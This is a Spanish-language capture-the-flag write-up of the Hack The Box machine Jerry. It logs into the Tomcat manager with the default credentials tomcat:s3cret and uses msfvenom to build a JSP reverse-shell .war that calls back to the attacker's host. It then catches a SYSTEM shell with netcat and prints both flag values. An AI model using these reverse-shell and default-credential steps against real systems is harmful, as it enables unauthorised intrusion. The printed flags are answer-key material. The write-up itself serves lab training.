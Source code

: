 ```yaml
---
category: Hack The Box
tags:
  - eJPT
  - eWPT
title: Machine Jerry
comments: "true"
image: /assets/img/machines/Jerry/Jerrybanner.jpeg
---
```

## Introducción
La máquina Jerry de Hack The Box es una de las más accesibles para quienes están comenzando en el mundo del pentesting. Su enfoque está en la identificación y explotación de configuraciones por defecto en aplicaciones ampliamente utilizadas. Durante este desafío, se identificó un servidor Apache Tomcat expuesto en el puerto 8080, que permitía el acceso al panel de administración mediante credenciales conocidas. A partir de esto, fue posible cargar un archivo .war con una reverse shell, obteniendo acceso al sistema con privilegios NT AUTHORITY\SYSTEM. Este writeup documenta paso a paso cómo se logró comprometer completamente la máquina mediante técnicas simples pero efectivas.

## Skills
- Abusing Tomcat

## Enumeración
Durante la fase de enumeración el escaneo reveló que el servicio expuesto corresponde a Apache Tomcat 7.0.88, ejecutando el motor JSP Apache Tomcat/Coyote en el puerto 8080. 
```bash
❯ nmap -sCV -p 8080 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Además, la página principal identificada con el título "Apache Tomcat/7.0.88" confirma que se trata de una instalación por defecto. Esta versión específica de Tomcat es conocida por ser vulnerable a ciertas técnicas de subida y ejecución de archivos maliciosos, lo que puede ser clave para comprometer el sistema.
![1](/assets/img/machines/Jerry/1.jpeg)

## Abusing Tomcat
Al acceder al portal web en el puerto 8080, se intentó entrar al panel de administración en la ruta /manager/html, típica de instalaciones por defecto de Apache Tomcat. 
![2](/assets/img/machines/Jerry/2.jpeg)

Inicialmente se probaron credenciales comunes como admin:admin, pero el acceso fue denegado con un error 403 - Access Denied. 
![3](/assets/img/machines/Jerry/3.jpeg)

No obstante, la misma página de error incluía una referencia a las credenciales por defecto tomcat:s3cret, lo cual sugería que podría tratarse de una configuración expuesta o mal asegurada que podía ser aprovechada en la siguiente etapa.
![4](/assets/img/machines/Jerry/4.jpeg)

Se procedió a probar las credenciales tomcat:s3cret en la ruta /manager/html, y esta vez el acceso fue exitoso. Esto permitió ingresar al Tomcat Web Application Manager, una interfaz desde la cual es posible administrar las aplicaciones desplegadas en el servidor, incluyendo la opción de subir y ejecutar archivos .war, lo que representa una puerta de entrada directa para la ejecución remota de comandos en el sistema.
![5](/assets/img/machines/Jerry/5.jpeg)

Con acceso al Tomcat Web Application Manager, se evaluaron las opciones de carga de archivos maliciosos. Para ello, se listaron los payloads disponibles de Metasploit utilizando msfvenom, filtrando específicamente aquellos relacionados con Java, ya que Tomcat permite el despliegue de aplicaciones en formato .war. Entre los resultados, se identificaron varias opciones de reverse shell y Meterpreter, siendo particularmente útiles aquellos que permiten conectarse de vuelta al atacante y ejecutar comandos en el sistema.
```bash
❯ msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
```

Una vez elegido el payload adecuado, se generó un archivo .war con una reverse shell utilizando msfvenom. El payload seleccionado fue java/jsp_shell_reverse_tcp, configurado para conectarse de vuelta a la IP del atacante 10.10.16.6 en el puerto 443. El comando utilizado fue:
```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
```

El archivo resultante, shell.war, fue creado correctamente y quedó listo para ser cargado a través del panel de administración de Tomcat.
![6](/assets/img/machines/Jerry/6.jpeg)

Con el archivo shell.war generado, se procedió a cargarlo mediante el Tomcat Manager en la sección de "Deploy". Una vez desplegado exitosamente, la aplicación quedó disponible en la ruta /shell/.
```plaintext
http://10.10.10.95:8080/shell/
```

Antes de acceder a la URL del payload desplegado, se dejó un listener activo en la máquina atacante utilizando Netcat, a la espera de la conexión entrante. Al ingresar a http://10.10.10.95:8080/shell/, se estableció exitosamente la reverse shell, otorgando acceso remoto al sistema. 
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Explorando el sistema con la shell obtenida, se accedió al directorio C:\Users\Administrator\Desktop\flags, donde se encontró un archivo llamado 2 for the price of 1.txt. Al visualizar su contenido, se revelaron ambas flags de la máquina: la user flag y la root flag, confirmando así la total explotación del sistema.
```bash
C:\apache-tomcat-7.0.88>cd C:\Users                        
cd C:\Users

C:\Users>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/18/2018  11:31 PM    <DIR>          Administrator
08/22/2013  06:39 PM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)   2,420,318,208 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/19/2018  06:43 AM    <DIR>          Contacts
06/19/2018  07:09 AM    <DIR>          Desktop
06/19/2018  06:43 AM    <DIR>          Documents
01/21/2022  09:23 PM    <DIR>          Downloads
06/19/2018  06:43 AM    <DIR>          Favorites
06/19/2018  06:43 AM    <DIR>          Links
06/19/2018  06:43 AM    <DIR>          Music
06/19/2018  06:43 AM    <DIR>          Pictures
06/19/2018  06:43 AM    <DIR>          Saved Games
06/19/2018  06:43 AM    <DIR>          Searches
06/19/2018  06:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   2,420,318,208 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)   2,420,318,208 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,420,318,208 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```